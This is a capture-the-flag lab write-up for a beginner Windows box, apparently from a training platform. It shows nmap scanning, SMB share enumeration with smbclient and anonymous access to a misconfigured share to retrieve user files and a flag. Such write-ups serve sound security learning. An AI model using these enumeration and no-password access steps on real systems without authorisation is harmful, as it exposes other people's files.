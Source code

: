 # Box: 
Name: Dancing
ID: 3
Difficulty: Very Easy

## 🧠 Attacker Environment
- **Host OS**: Parrot Security OS (VM)

## 🛠️ Tools Used
  - `ping`
  - `nmap`

## 🎯 Target Environment
- **Ip Address**: 10.129.10.250
- **OS**: Windows

## 🧠 Recon
Nmap Scan:
```bash
nmap -sV 10.129.10.250
```
## 🔍 Enumeration
- Found an open port **135/tcp**, running **msrpc** service
- Found an open port **139/tcp**, running **netbios-ssn** service
- Found an open port **445/tcp**, running **microsoft-ds?** service

## 💥 Exploitation
Logged in via SMB:
```bash
smbclient -L 10.129.10.250
```
## Shares Available
- **ADMIN$**: hidden network shares created by Windows NT that allows admins to have remote access to every disk volume on a network-connected system
- **C$** Admin share for the C:\ disk volume
- **IPC$**inter-process communication share (not part of file system)
- **WorkShares$**custom share

## Authentication
````bash
smbclient \\\\10.129.10.250\\ADMIN$ = ❌
smbclient \\\\10.129.10.250\\C$ = ❌
smbclient \\\\10.129.10.250\\WorkShares = ✅ **Success** 
````

## File Discovery
1. Used ls to list all contents of the share:
```bash 
smb: \> ls
```
2. Found two directories:
Amy.J
James.P

3. Navigated into the Amy.J directory and retrieved notes:
```bash 
smb: \> cd Amy.J
smb: \Amy.J\> ls
smb: \Amy.J\> get worknotes.txt
```
4. Went back and accessed James.P:
```bash 
smb: \Amy.J\> cd ..
smb: \> cd James.P
smb: \James.P\> ls
smb: \James.P\> get flag.txt
```
## 🔐 Privilege Escalation
Not required - accessed another user's desktop via SMB

## 🧼 Cleanup & Lessons
- smbclient session closed cleanly
- **Key takeaways**: 
- Enumerate all shares, always try no password
